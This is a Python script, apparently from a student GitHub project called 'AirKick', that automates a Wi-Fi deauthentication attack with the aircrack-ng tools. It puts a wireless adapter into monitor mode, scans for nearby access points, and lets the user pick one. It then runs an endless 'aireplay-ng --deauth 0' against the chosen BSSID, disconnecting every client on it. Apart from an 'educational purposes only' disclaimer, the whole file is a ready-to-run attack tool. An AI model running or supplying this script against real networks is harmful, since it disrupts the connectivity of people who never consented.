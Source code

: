 # 1015-No-Brainers
# THIS SCRIPT WAS MADE FOR EDUCATIONAL PURPOSES ONLY. THE AUTHOR IS NOT LIABLE FOR ANY HARM DONE USING THIS SCRIPT.

import subprocess
import re
import csv
import os
import time
import shutil
from datetime import datetime


active_wireless_networks = []


def check_for_essid(essid, lst):
    check_status = True

    
    if len(lst) == 0:
        return check_status

    
    for item in lst:
        
        if essid in item["ESSID"]:
            check_status = False

    return check_status





print(r"""    _    _        _  ___      _    
   / \  (_)_ __  | |/ (_) ___| | __
  / _ \ | | '__| | ' /| |/ __| |/ /
 / ___ \| | |    | . \| | (__|   < 
/_/   \_\_|_|    |_|\_\_|\___|_|\_\ """)
print("\n****************************************************************")
print("\n* Freshly brewed by Vansh Choudhary *")
print("\n****************************************************************")



if not 'SUDO_UID' in os.environ.keys():
    print("Try running this program with sudo.")
    exit()


for file_name in os.listdir():
    
    if ".csv" in file_name:
        print("There shouldn't be any .csv files in your directory. We found .csv files in your directory.")
        
        directory = os.getcwd()
        try:
            
            os.mkdir(directory + "/backup/")
        except:
            print("Backup folder exists.")
        
        timestamp = datetime.now()
        
        shutil.move(file_name, directory + "/backup/" + str(timestamp) + "-" + file_name)


wlan_pattern = re.compile("^wlan[0-9]+")



check_wifi_result = wlan_pattern.findall(subprocess.run(["iwconfig"], capture_output=True).stdout.decode())


if len(check_wifi_result) == 0:
    print("Please connect a WiFi controller and try again.")
    exit()


print("The following WiFi interfaces are available:")
for index, item in enumerate(check_wifi_result):
    print(f"{index} - {item}")


while True:
    wifi_interface_choice = input("Please select the interface you want to use for the attack: ")
    try:
        if check_wifi_result[int(wifi_interface_choice)]:
            break
    except:
        print("Please enter a number that corresponds with the choices.")


hnic = check_wifi_result[int(wifi_interface_choice)]


print("WiFi adapter connected!\nNow let's kill conflicting processes:")



kill_confilict_processes =  subprocess.run(["sudo", "airmon-ng", "check", "kill"])


print("Putting Wifi adapter into monitored mode:")
put_in_monitored_mode = subprocess.run(["sudo", "airmon-ng", "start", hnic])



discover_access_points = subprocess.Popen(["sudo", "airodump-ng","-w" ,"file","--write-interval", "1","--output-format", "csv", hnic + "mon"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)


try:
    while True:
        
        subprocess.call("clear", shell=True)
        for file_name in os.listdir():
                
                
                fieldnames = ['BSSID', 'First_time_seen', 'Last_time_seen', 'channel', 'Speed', 'Privacy', 'Cipher', 'Authentication', 'Power', 'beacons', 'IV', 'LAN_IP', 'ID_length', 'ESSID', 'Key']
                if ".csv" in file_name:
                    with open(file_name) as csv_h:
                        
                        
                        csv_h.seek(0)
                        csv_reader = csv.DictReader(csv_h, fieldnames=fieldnames)
                        for row in csv_reader:
                            if row["BSSID"] == "BSSID":
                                pass
                            elif row["BSSID"] == "Station MAC":
                                break
                            elif check_for_essid(row["ESSID"], active_wireless_networks):
                                active_wireless_networks.append(row)

        print("Scanning. Press Ctrl+C when you want to select which wireless network you want to attack.\n")
        print("No |\tBSSID              |\tChannel|\tESSID                         |")
        print("___|\t___________________|\t_______|\t______________________________|")
        for index, item in enumerate(active_wireless_networks):
            
            
            
            print(f"{index}\t{item['BSSID']}\t{item['channel'].strip()}\t\t{item['ESSID']}")
        
        time.sleep(1)

except KeyboardInterrupt:
    print("\nReady to make choice.")


while True:
    choice = input("Please select a choice from above: ")
    try:
        if active_wireless_networks[int(choice)]:
            break
    except:
        print("Please try again.")


hbssid = active_wireless_networks[int(choice)]["BSSID"]
hchannel = active_wireless_networks[int(choice)]["channel"].strip()



subprocess.run(["airmon-ng", "start", hnic + "mon", hchannel])


subprocess.Popen(["aireplay-ng", "--deauth", "0", "-a", hbssid, check_wifi_result[int(wifi_interface_choice)] + "mon"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL) 


try:
    while True:
        print("Deauthenticating clients, press ctrl-c to stop")
except KeyboardInterrupt:
    print("Stop monitoring mode")
    
    subprocess.run(["airmon-ng", "stop", hnic + "mon"])
    print("Thank you! Exiting now")


#Names: Preet Durllabh, Uriel Trejo, Alexis Watson
